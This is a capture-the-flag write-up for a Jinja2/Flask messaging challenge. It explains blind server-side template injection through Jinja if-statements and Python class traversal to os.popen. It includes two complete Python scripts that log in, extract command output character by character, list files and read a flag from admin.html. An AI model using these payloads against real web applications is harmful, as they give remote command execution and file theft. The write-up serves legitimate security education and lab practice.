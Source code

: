 # Mr. O

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get view the admin.html page, I will give you a flag. 

Hacked again, so I am now filtering those special words and characters, but I won't tell you what they are so you can't find out how I was hacked. I will give you guys a couple characters back because I got some complaints about going overboard with it, especially about not being able to use a period on a messaging service.

p.s. to save you some time, don't try getting a reverse shell

### Writeup

This web app is alos vulnerable to template injection, but `{{` and `}}` is filtered, so we can't use the same method. Jinja has support for if statement templates that look like this: `{% if 'test' == 'test' %} render this string if true {% endif %}`. Let's see what happens when we send this message:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/jinja_if.png" width=40%  height=40%></p>

Since Python is an OOP language, we can Method Resolution Order (MRO) to traverse across classes to a method we want, such as `os.popen`. Read more about this here: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/. The following payload makes use of this to run the `ls` command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read() == 'test' %} a {% endif %}`

The problem is that we won't see the output. Instead of `ls`, you could just put a reverse shell and that'd be it, but I removed netcat from the docker and filtered basically any other useful special character so people can't do this.

We can instead do a blind test for the output of the command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}`

If we put any character in `x`, then we can test if the output of the `ls` command starts with that character by checking if we see `found` returned back to us. Let's run this with the letter "D": `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} found {% endif %}`
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/ssti_found.png" width=40%  height=40%></p>

I chose "D" because `Dockerfile` is the first file in the docker. We just need to script this so we can see the whole output of `ls`. Once we have that, we can try to find the path to the `/admin.html` page so we can read the flag.

Here is the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker

def get_cookie():
    data = {
        "username": "test", # make sure to make a test:test user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = ""
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/ssti_ls.png" width=40%  height=40%></p>

We see the directory strucutre. We can keep running this until we find the /admin.html file, but I'll skip that. I use a basic flask directory structure, so it is located in `/app/templates/admin.html`. Now let's read the file. There is a lot of HTML fluff that would make the process take forever, so we can speed it up by grepping for `Flag` first. Here's the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: PCTF{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/underground_flag.png" width=40%  height=40%></p>